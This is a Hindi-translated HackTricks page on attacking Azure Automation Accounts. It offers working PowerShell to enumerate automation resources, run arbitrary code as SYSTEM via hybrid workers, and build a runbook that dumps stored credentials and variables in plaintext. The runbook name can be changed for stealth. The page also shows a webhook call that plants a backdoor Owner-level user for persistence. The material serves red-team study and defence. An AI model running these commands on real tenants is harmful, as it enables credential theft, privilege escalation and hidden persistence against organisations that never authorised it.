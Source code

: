 # Az - ऑटोमेशन अकाउंट

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## मूल जानकारी

Azure Automation एक क्लाउड-आधारित ऑटोमेशन, ऑपरेटिंग सिस्टम अपडेट्स, और कॉन्फ़िगरेशन सेवा प्रदान करता है जो आपके Azure और गैर-Azure वातावरणों में सुसंगत प्रबंधन का समर्थन करता है। इसमें प्रोसेस ऑटोमेशन, कॉन्फ़िगरेशन प्रबंधन, अपडेट प्रबंधन, साझा क्षमताएं, और विविध विशेषताएं शामिल हैं।

ये Azure में "**निर्धारित कार्य**" की तरह हैं जो आपको **Azure वातावरण** को प्रबंधित, जांच और कॉन्फ़िगर करने के लिए चीजों (क्रियाओं या यहां तक कि स्क्रिप्ट्स) को निष्पादित करने देते हैं।

### रन ऐज अकाउंट

जब **रन ऐज अकाउंट** का उपयोग किया जाता है, तो यह एक Azure AD **एप्लिकेशन** को सेल्फ-साइन्ड सर्टिफिकेट के साथ बनाता है, एक **सर्विस प्रिंसिपल** बनाता है और **वर्तमान सब्सक्रिप्शन** में अकाउंट के लिए **कंट्रीब्यूटर** भूमिका असाइन करता है (बहुत सारे विशेषाधिकार)।\
Microsoft ऑटोमेशन अकाउंट के लिए **मैनेज्ड आइडेंटिटी** का उपयोग करने की सिफारिश करता है।

{% hint style="warning" %}
यह **30 सितंबर, 2023 को हटा दिया जाएगा और मैनेज्ड आइडेंटिटीज के लिए बदल दिया जाएगा।**
{% endhint %}

## रनबुक्स और जॉब्स को समझौता करना

**रनबुक्स** आपको **मनमाने PowerShell** कोड को निष्पादित करने देती हैं। इसका उपयोग **हमलावर द्वारा दुरुपयोग** किया जा सकता है ताकि **संलग्न प्रिंसिपल** की अनुमतियों को चुराया जा सके (यदि कोई हो)।\
**रनबुक्स** के **कोड** में आपको **संवेदनशील जानकारी** (जैसे क्रेड्स) भी मिल सकती है।

यदि आप **जॉब्स** को **पढ़** सकते हैं, तो ऐसा करें क्योंकि वे **आउटपुट** को **समाहित** करते हैं जो रन का होता है (संभावित **संवेदनशील जानकारी**).

जाएं `Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### हाइब्रिड वर्कर

एक रनबुक को Azure के अंदर एक **कंटेनर** में या एक **हाइब्रिड वर्कर** में चलाया जा सकता है।\
**लॉग एनालिटिक्स एजेंट** को VM पर डिप्लॉय किया जाता है ताकि इसे हाइब्रिड वर्कर के रूप में रजिस्टर किया जा सके।\
हाइब्रिड वर्कर जॉब्स Windows पर **SYSTEM** के रूप में और Linux पर **nxautomation** अकाउंट पर चलते हैं।\
प्रत्येक हाइब्रिड वर्कर को एक **हाइब्रिड वर्कर ग्रुप** में रजिस्टर किया जाता है।

इसलिए, यदि आप एक **रनबुक** को एक **Windows हाइब्रिड वर्कर** में चलाने का चयन कर सकते हैं, तो आप उस मशीन के अंदर **System** के रूप में **मनमाने कमांड्स** निष्पादित करेंगे।

## स्टेट कॉन्फ़िगरेशन (SC) को समझौता करना

Azure Automation **स्टेट कॉन्फ़िगरेशन** एक Azure कॉन्फ़िगरेशन प्रबंधन सेवा है जो आपको किसी भी क्लाउड या ऑन-प्रिमाइसेस डेटासेंटर में नोड्स के लिए PowerShell Desired State Configuration (DSC) [कॉन्फ़िगरेशन्स](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) लिखने, प्रबंधित करने, और संकलित करने की अनुमति देती है। सेवा [DSC रिसोर्सेज](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources) को भी आयात करती है, और लक्ष्य नोड्स को कॉन्फ़िगरेशन्स असाइन करती है, सभी क्लाउड में। आप Azure पोर्टल में Azure Automation स्टेट कॉन्फ़िगरेशन तक पहुंच सकते हैं **स्टेट कॉन्फ़िगरेशन (DSC)** का चयन करके **कॉन्फ़िगरेशन प्रबंधन** के तहत।

इन कॉन्फ़िगरेशन्स में **संवेदनशील जानकारी** मिल सकती है।

### RCE

SC का दुरुपयोग करके प्रबंधित मशीनों में मनमाने स्क्रिप्ट्स चलाना संभव है।

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## गणना

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### रनबुक बनाएं

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### एक रन बुक का उपयोग करके ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल्स और वेरिएबल्स का एक्सफिल्ट्रेशन
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% hint style="info" %}
आप वेब कंसोल से मौजूदा Run Book में संशोधन करके भी यही काम कर सकते हैं।
{% endhint %}

## स्थायित्व

### उच्च विशेषाधिकार प्राप्त उपयोगकर्ता बनाने वाला ऑटोमेशन

* एक नया Automation Account बनाएं
* "Create Azure Run As account": हाँ
* एक नया रनबुक आयात करें जो AzureAD उपयोगकर्ता बनाता है जिसे सब्सक्रिप्शन के लिए Owner अनुमतियाँ होती हैं
* इस ब्लॉग के लिए नमूना रनबुक यहाँ स्थित है - [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* रनबुक प्रकाशित करें
* रनबुक के लिए एक webhook जोड़ें
* Automation account में AzureAD मॉड्यूल जोड़ें
* Azure Automation Modules अपडेट करें
* ऑटोमेशन अकाउंट को "User Administrator" और "Subscription Owner" अधिकार सौंपें
* अंततः आपकी पहुँच खो दें...
*   नए उपयोगकर्ता बनाने के लिए पोस्ट अनुरोध के साथ webhook ट्रिगर करें

```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
